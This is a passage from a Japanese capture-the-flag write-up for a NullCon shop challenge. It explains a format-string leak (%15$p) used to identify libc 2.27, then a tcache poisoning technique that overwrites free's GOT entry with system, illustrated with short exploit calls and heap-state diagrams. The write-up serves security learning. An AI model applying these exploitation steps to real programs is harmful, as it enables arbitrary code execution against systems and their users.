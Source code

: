 ```
        "Books" : [
                {
                        "index": 2,
                        "name": "",
                        "price": 123,
                        "rights": "Copyright NullCon Shop"
                },
                {
                        "index": 0,
                        "name": "Copyright NullCon Shop",
                        "price": 1337,
                        "rights": "Hello, World!"
                },
                {
                        "index": 2,
                        "name": "",
                        "price": 123,
                        "rights": "Copyright NullCon Shop"
                }
        ]
}
```
`books[2]`をremoveしてaddすれば新しいrightsを入れることもできるので、何回かFormat String Exploitができる形です。
ただし、データそのものはbssセクションにあるので上手いこと任意アドレスへの書き込みができるでしょうか。
とりあえず`%15$p`をrightsに与えるとmain関数のリターンアドレスが分かるので、これを元にlibc databaseを参照するとlibcは`libc6_2.27-3ubuntu1_amd64.so`であることが分かりました。
`__libc_start_main+??`のアドレスが分かったので同時にlibcのロードアドレスも分かります。

さて、後はGOTなり`__free_hook`なりにsystem関数のアドレスを書き込めば終了です。
libcのバージョン的にtcacheが有効です。
~~`books[1]->name`に任意のアドレスが入れられるので、ここにatol関数のGOTのアドレスを書き込んで、freeすればtcacheにatolのGOTアドレスがリンクされます。~~
atol用に使えるバッファは2バイトだったので今回はfree関数のGOTを使います。
あとはmallocしてsystem関数のアドレスを書き込みます。
ここまでやって思ったのですが、nameでGOTのアドレスがリークできるから別にFSBいらなくない...？

今回はまずtcacheにゴミが残っていれば使い果たして、その後サイズ0xf8と0x38のチャンクを確保します。0xf8のチャンクを2回削除して、0x38のチャンクを2つほど削除します。これにより次にサイズ0xf8のチャンクを確保した際、nameでTCache Poisoningを起こしつつ、book用のサイズ0x38のチャンクではdouble freeで落ちないようにできます。
あとは1回目にfreeのGOTアドレスを書き込み、2回目は適当、3回目にsystem関数のアドレスを書き込めばTCache Poisoningできます。

具体的には、
```
tcache(for 0x38) --> (books[i]) --> (books[i])
tcache(for 0xf8) --> (books[i]->name) --> (books[i]->name)
```
の状態で
```
add(0xf8, p64(got_free), 123)
add(0xf8, "AAAA", 123)
```
としてしまうとtcacheが
```
tcache(for 0x38) --> ????
tcache(for 0xf8) --> free@GOT
```
となり、次に本を作る際に落ちてしまいます。
そこでサイズ0x48(オーバーヘッド抜きで0x38)のチャンクを削除しておけば
```
tcache(for 0x38) --> (books[j]) --> (books[j]->name) --> (books[i]) --> (books[i])
tcache(for 0xf8) --> (books[i]->name) --> (books[i]->name)
```
となり、余裕が生まれます。
